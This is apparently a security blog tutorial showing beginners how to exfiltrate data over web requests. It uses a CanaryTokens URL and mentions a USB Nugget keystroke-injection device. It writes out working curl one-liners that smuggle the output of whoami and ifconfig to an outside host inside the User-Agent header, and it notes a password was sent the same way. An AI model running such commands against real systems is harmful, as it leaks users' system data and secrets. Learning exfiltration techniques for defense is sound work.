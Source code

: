```yaml
---
title: "Easy Data Exfiltration with CanaryTokens"
description: ""
lead: "Write your first data exfil payload in minutes with the USB Nugget!"
excerpt: ""
date: 2022-08-27T11:07:26-07:00
lastmod: 2022-08-27T11:07:26-07:00
draft: false
weight: 50
images: []
categories: ["CanaryTokens","DuckyScript","Data Exfiltration","USB Nugget"]
tags: []
contributors: ["Alex Lynd"]
pinned: false
homepage: false
---
```

<hr>

### Overview
If you're just getting started with data exfiltration, it might not be practical to set up an entire webserver or local environment just to try out some simple techniques, like web request exfiltration.

[In my Hak5 episode](), I created a simple proof-of-concept using an online tool called [CanaryTokens](), to demonstrate how simple it is to remotely exfiltrate a Linux password using a single command. 

Using a keystroke injection tool called the [USB Nugget](), I created a payload that demonstrates this sneaky attack in seconds - but if you dont have one, you can still practice the exfiltration techniques with your web browser.

### What You'll Need
- A computer (Linux preferable)
- [USB Nugget](https://usbnugget.com), or other DuckyScript device

<div>
<iframe width="560" height="315" src="https://www.youtube.com/embed/T3szLSA83AU" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
</div>
<hr>

### What is Data Exfiltration?
Data exfiltration happens when a hacker needs to sneak sensitive data out of a compromised computer or network.  This can often be difficult to detect, since there's a variety of tricky obfuscation methods an attacker can use to disguise sensitive information as something less conspicuous.

### Hiding Data in Plain Sight: Web Traffic
One common method of data exfiltration involves hiding data inside of HTTP web traffic.  Since most network policies allow its users to browse the web, and since HTTP traffic (i.e. web requests) can usually comprise the majority of traffic on a network, it's hard to identify a single malicious source that's being used to exfiltrate data. 

In addition, data obfuscation methods like [steganography]() can make it even harder to identify if sensitive information is being stolen in plain sight, especially if used in conjunction with encryption.

<hr>

### Catching Hackers with CanaryTokens
[CanaryTokens]() is an awesome honeypot service developed by [Thinkst Canary]() that makes it easy to create bugged urls, documents, images, and more!  

Typically, these honeypots can be used to determine if a hacker is snooping through your system, by leaving a juicy looking target somewhere that's easy for them to find. Since most hackers aren't manually scanning through your filesystem for credentials and secrets, they'll often use a program to enumerate (and subsequently exfiltrate) specific file types like images or documents with keywords like *password* or *cryptocurrency*, for example.

Thanks to CanaryTokens it's pretty easy to detect this activity, since you'll recieve an email if the hacker opens one of these bugged files!


![CanaryTokens website](canarytokens.png "You can create bugged images, Word documents, and more.")


### Weaponizing CanaryTokens
One of my favorite unintended uses of CanaryTokens involves using the Incident Dashboard as a crude method of data exfiltration.

If you create a basic `web bug / URL token` as shown above, this dashboard lets you profile basic information about the system that clicks on your token, and even shows you the rough whereabouts using their Internet Service Provider.

Your unique link should look something like this:

![](canary-url.png "Example web bug CanaryTokens url")

The dashboard is super handy for determining every time there's a new "hit" on your CanaryToken - but can also be a great visual tool for trying out data exfiltration through web requests.

![](incident-map.png "CanaryTokens Dashboard with Incident List & Map")

<hr>

### User Agent Strings
One key piece of information that's revealed about the "victim" through this dashboard is a metadata field called the `User-Agent String`, which reveals information about their machine such as the:
- Operating System
- Browser type & version
- Windowing system  

When browsing the web, this string is sent as a header in HTTP packets so websites can identify what kind of device you're using.  This is makes it easy to render content for mobile devices, or serve downloads catered towards your operating system.

![](user-agent.png "The User-Agent String from my laptop, as detected by CanaryTokens")

### Custom User-Agents
Since there's no strict format for UA Strings, this means we can set it to arbitrary text - and use this parameter as a crude method of plain-text data exfiltration!  

We'll be trying this out by creating web-requests with a simple command-line tool called `curl`.  You should be able to use it on Linux, Mac, or the latest version of Windows.

Try running the following command to make a request to your CanaryToken!
```
curl https://canarytokens.org/yourtokenhere
```

![](curl-request.png "A Boring User-Agent String from command-line tool Curl")

Using the `-a` (agent) parameter, you can try sending the request with an arbitrary User Agent like `meow123456789`.

```
curl https://canarytokens.org/yourtokenhere -a "meow123456789"
```
![](dashboard-custom-ua.png "Custom User-Agent set through Curl")

### Crude Data Exfiltration

As you can see, manipulating the user-agent string is fairly simple - so now let's try exfiltrating sensitive system information!

To do this, you can pass the output of another command to the User-Agent String by escaping it with `$(<command>)` on Linux / Mac or `%command%` on Windows.  For example, the following command sets the output of `whoami` as the user agent.

```
curl https://canarytokens.org/yourtokenhere -a "$(whoami)"
```
If you want to try something a little fancier, you can create a command like `ifconfig | tr -d "\n"` which formats network information from the `ifconfig` command on a single line  By running the following request, you can see the output on the CanaryTokens dashboard below!

```
curl https://canarytokens.org/yourtokenhere -a "$(ifconfig | tr -d '\n')"
```
![](dashboard-network-info.png "Network info exfiltrated to CanaryTokens")

In my video, I used this in order to exfiltrate the contents of a text file containing an administrator password - but you can get creative and try passing the output of other commands.

### Conclusion & Diving Deeper
While this demo makes it easy to visualize how web requests can pass sensitive information through spoofed parameters, it's pretty clear that this technique has limitations, and isn't the most practical in an actual data exfiltration scenario.

However, hackers *do* actually spoof user-agent fields when exfiltrating data - in order to masquerade exfiltration processes as normal web traffic, or sometimes even as a custom flag that can trigger actions from a C2 server.

In future tutorials, we'll explore some of these use-cases, and also advanced techniques like DNS exfiltration with CanaryTokens.